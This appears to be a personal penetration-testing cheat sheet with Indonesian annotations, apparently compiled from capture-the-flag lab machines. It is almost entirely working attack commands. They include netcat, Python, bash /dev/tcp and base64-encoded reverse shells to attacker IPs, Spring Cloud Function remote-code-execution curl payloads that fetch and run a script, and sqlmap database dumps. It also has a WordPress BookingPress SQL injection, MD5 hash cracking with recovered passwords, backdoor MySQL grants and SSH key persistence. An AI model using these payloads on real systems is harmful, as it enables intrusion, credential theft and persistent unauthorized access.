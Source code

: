 # Note
check access 
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null


check service service --status-all => bisa untuk revshell atau tahap deffense
python3 -c "import pty;pty.spawn('/bin/bash')" => bisa untuk interactive shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/f


sqlmap -u "" --current-db => bisa untuk dapetin database
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
-D soccer_db -T accounts --dump

# with url
sqlmap -u http://167.71.207.218:50621/logins.php -X POST --data "username=foo&passw0rd='*&login-btn=" --batch --tamper=randomcase,space2comment -D web_blindsql --dump --time-sec 1 --threads=10


# revshell python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.37',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);


# find permission privsec
find / -perm -u=s -type f 2>/dev/null

# fuzzing
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
nmap -A -T4 -oG writeup.gnmap 10.10.10.138
masscan -p1-65535,U:1-65535 10.129.95.203 --rate=1000
nmap -v -sV -p80,443 --script vuln -oA http_vuln 10.10.10.79
nmap -sC -sV ip -p-
nmap detail port 
sudo nmap -sU -top-ports=100 panda.htb
nmap -p22,50051 -sCV -Pn 10.129.37.201 -oN targeted
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.34.244 -oG allPorts
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.191/FUZZ -e .txt


# fuzzing subdomain
gobuster vhost -u stocker.htb -w /usr/share/wordlists/subdomains-top1million-110000.txt
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html -t 20 -o scans/

# kalau misal udah fuzzing gak ada ada apa apa fungzzing pake /cig-bin -x sh,cgi,pl
gobuster-admindir-medium-php_txt_html_zip


# fuzzing directory
gobuster dir -u previse.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php 
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691

dirsearch -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
wfuzz -c --sc 200 -w ./common.txt -w /usr/share/wfuzz/wordlist/general/extensions_common.txt -u http://10.10.10.191/FUZZFUZ2Z


# mysql   
GRANT ALL PRIVILEGES ON *.* TO root@10.129.82.0 IDENTIFIED by 'wizz' WITH GRANT OPTION;
create user 'wiz'@'%' identified by 'wiz';
grant all privileges on *.* to wiz@'%';

# get information gathering with curl
curl -I 10.129.230.29
curl -S 

# curl command send payload encode
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.34/4444 0>&1" http://10.129.81.227/shell.php

# fuzzing lfi
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt --hc 404 --hh 206 http://192.168.0.119/index.php?file=FUZZ

check /proc/self/cmdline => untuk lihat cmdline terakhir

# spring cloud revshell
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"nc 10.10.14.52 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/file.txt")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.14.19/rev.sh -o /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/exp.sh")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'

curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc 10.10.14.19 4444")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'


curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=33b508d232&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'


# hasing brute 

❯ cat hashes
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b

❯ sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > newrockyou.txt
  
❯ john -w:newrockyou.txt hashes --format=Raw-MD5
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
NaCliluvhorsesandgym (bill)
NaClAaronthehottest (dmytro)
NaCl2applesplus2apples (michael)
Session completed


# windows
change /etc/passwd on windows
file:///c:/windows/win.ini


# listen samba
smbclient ldap
smbclient -L ////10.10.10.11.202//

listen smbclient with remote dir
smbclient //10.10.11.202/Public


# revshell php bash exec
echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMzYvNDQ0NCAwPiYx" |base64 -d | bash    


# replace ssh
ssh-keygen
cp id_rsa.pub authorized_keys

create .ssh

ssh -i id_rsa -L 8000:localhost:8000 strapi@10.129.149.92
